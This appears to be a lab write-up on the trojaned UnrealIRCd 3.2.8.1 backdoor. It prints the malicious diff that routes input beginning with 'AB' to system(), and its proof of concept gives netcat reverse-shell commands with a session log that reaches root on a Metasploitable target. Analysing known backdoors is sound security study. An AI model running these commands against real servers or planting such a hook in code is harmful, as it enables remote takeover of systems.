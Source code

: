 # UnrealIRCd 3.2.8.1 Backdoor Command Execution

## Description :

UnrealIRCd 3.2.8.1, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (Trojan Horse) in the `DEBUG3_DOLOG_SYSTEM` macro, which allows remote attackers to execute arbitrary commands.

Reported by the vendor. (https://www.securityfocus.com/bid/40820)

Metasploit module is also available for this vulnerability. It's written by:

* hdm <x@hdm.io>

## Digging the hole

The official security advisory (http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt) for getting detailed information is not available at the moment, throws **ERR_CONNECTION_TIMED_OUT**

To get it anyway, we can utilize the **Wayback Machine**

Read the local copy of advisory : [unrealsecadvisory.20100612.txt](unrealsecadvisory.20100612.txt)

```
This is very embarrassing...

We found out that the Unreal3.2.8.1.tar.gz file on our mirrors has been
replaced quite a while ago with a version with a backdoor (trojan) in it.
This backdoor allows a person to execute ANY command with the privileges of
the user running the ircd. The backdoor can be executed regardless of any user
restrictions (so even if you have passworded server or hub that doesn't allow
any users in).

It appears the replacement of the .tar.gz occurred in November 2009 (at least on some mirrors). It seems nobody noticed it until now.
```

Let's get our hands on it. Again, the advisory provides the md5sum we should look for.

```
One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by running 'md5sum Unreal3.2.8.1.tar.gz' on it.

Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
```

In sources, you can find the clean and backdoored versions of Unreal3.2.8.1, as said we can verify md5sums :

```
$ md5sum Unreal3.2.8.1*
752e46f2d873c1679fa99de3f52a274d  Unreal3.2.8.1_backdoor.tar.gz
7b741e94e867c0a7370553fd01506c66  Unreal3.2.8.1_clean.tar.gz
```

Yes, we've the backdoor code. We can now check the code diff.

```
$ diff -urN Unreal3.2.8.1_clean Unreal3.2.8.1_backdoor
```

```
diff -urN Unreal3.2.8.1_clean/include/struct.h Unreal3.2.8.1_backdoor/include/struct.h
--- Unreal3.2.8.1_clean/include/struct.h	2009-04-13 13:03:57.000000000 +0200
+++ Unreal3.2.8.1_backdoor/include/struct.h	2009-04-13 13:03:00.000000000 +0200
@@ -430,6 +430,7 @@
 #endif
 
 /* Fake lag exception */
+
 #define IsNoFakeLag(x)      ((x)->flags & FLAGS_NOFAKELAG)
 #define SetNoFakeLag(x)     ((x)->flags |= FLAGS_NOFAKELAG)
 #define ClearNoFakeLag(x)   ((x)->flags &= ~FLAGS_NOFAKELAG)
@@ -448,6 +449,7 @@
 #else
 #define IsNotSpoof(x)           (1)
 #endif
+#define	DEBUGMODE3	    ((x)->flags & FLAGS_NOFAKELAG)
 
 #define GetHost(x)			(IsHidden(x) ? (x)->user->virthost : (x)->user->realhost)
 #define GetIP(x)			((x->user && x->user->ip_str) ? x->user->ip_str : (MyConnect(x) ? Inet_ia2p(&x->ip) : NULL))
@@ -513,6 +515,10 @@
 #else
 #define CHECKPROTO(x,y) (checkprotoflags(x, y, __FILE__, __LINE__))
 #endif
+#ifdef DEBUGMODE3
+#define DEBUGMODE3_INFO	"AB"
+#define	DEBUG3_LOG(x) DEBUG3_DOLOG_SYSTEM (x)
+#endif
 
 #define DontSendQuit(x)		(CHECKPROTO(x, PROTO_NOQUIT))
 #define IsToken(x)		(CHECKPROTO(x, PROTO_TOKEN))
@@ -1373,6 +1379,7 @@
 #define INCLUDE_REMOTE     0x2
 #define INCLUDE_DLQUEUED   0x4
 #define INCLUDE_USED       0x8
+#define DEBUG3_DOLOG_SYSTEM(x) system(x)
 	
 struct _configitem_include {
 	ConfigItem *prev, *next;
diff -urN Unreal3.2.8.1_clean/src/s_bsd.c Unreal3.2.8.1_backdoor/src/s_bsd.c
--- Unreal3.2.8.1_clean/src/s_bsd.c	2009-03-01 19:37:58.000000000 +0100
+++ Unreal3.2.8.1_backdoor/src/s_bsd.c	2006-06-16 20:29:00.000000000 +0200
@@ -1431,6 +1431,10 @@
 		    return 1;
 		if (length <= 0)
 			return length;
+#ifdef DEBUGMODE3
+	if (!memcmp(readbuf, DEBUGMODE3_INFO, 2))
+	    DEBUG3_LOG(readbuf);
+#endif
 		for (h = Hooks[HOOKTYPE_RAWPACKET_IN]; h; h = h->next)
 		{
 			int v = (*(h->func.intfunc))(cptr, readbuf, length);

```

## Attack Anatomy

```
if (!memcmp(readbuf, DEBUGMODE3_INFO, 2)) /* if first two char from the buffer is "AB", it gets 0, and !0 = 1*/
```

The code is small, no explicit sockets are created, backdoor works over default socket/port (IRC) and uses `system()` to execute commands, `system()` executes a command specified in command by calling `/bin/sh -c` command, and returns after the command has been completed **if the passed data begins with special character sequence i.e. "AB"**.

`#ifdef` is just for increasing compatibility.

> In computer programming, conditional compilation is compilation implementing methods which allow the compiler to produce differences in the executable program produced and controlled by parameters that are provided during compilation. This technique is commonly used when these differences are needed to run the software on different platforms, or with different versions of required libraries or hardware. (https://en.wikipedia.org/wiki/Conditional_compilation)

> IRC was originally a plain text protocol (although later extended), which on request was assigned port 194/TCP by IANA. However, the de facto standard has always been to run IRC on 6667/TCP and nearby port numbers (for example TCP ports 6660–6669, 7000) to avoid having to run the IRCd software with root privileges. (https://en.wikipedia.org/wiki/Internet_Relay_Chat)


## Proof of Concept

#### Triggering the backdoor :

```
nc -vnlp 4444
nc TARGET_IP IRC_PORT
AB;nc -e "command" BOX_ADDR 4444
```

#### Get a shell :

```
r00t@w00t:~$ nc 192.168.233.155 6667
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;nc -e /bin/sh 192.168.233.153 4444
^C
root@w0ot:~$ 
=======================================================================================================
r00t@w00t:~$ nc -vnlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 192.168.233.155 41223 received!
id -un
root
^C
r00t@w00t:~$ 
```
## Our Own Exploit Sandwitch

We used bash, it's a quick-n-dirty exploit utilising netcat utility to pop a reverse shell. We assume that the victim has netcat binary, it's a bad practice (we can sure download/push the binary to victim's machine).

```
r00t@w00t:~$ ./exploit.sh

Description :

UnrealIRCd 3.2.8.1, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (Trojan Horse) in the DEBUG3_DOLOG_SYSTEM macro, which allows remote attackers to execute arbitrary commands.

Vulnerable Service : UnrealIRCd 3.2.8.1
Default Port       : 6667
Target             : Unix

Enter target IP or hostname: 192.168.233.155
Enter target irc port (6667): 6667
Enter your IP (reverse shell): 192.168.233.153
Which port you want to receive the shell (e.g. 4444): 4444
[*] Starting a listener on port 4444
[+] Started listener to grab r00t shell ...
[*] Sleeping 5 seconds ...

[DEBUG INFO]

:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead

[+] Sent payload ...
[+] Enjoy!

r00t@w00t:~$ 
```




## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075
- https://www.exploit-db.com/exploits/13853
- https://linux.die.net/man/3/system
- https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor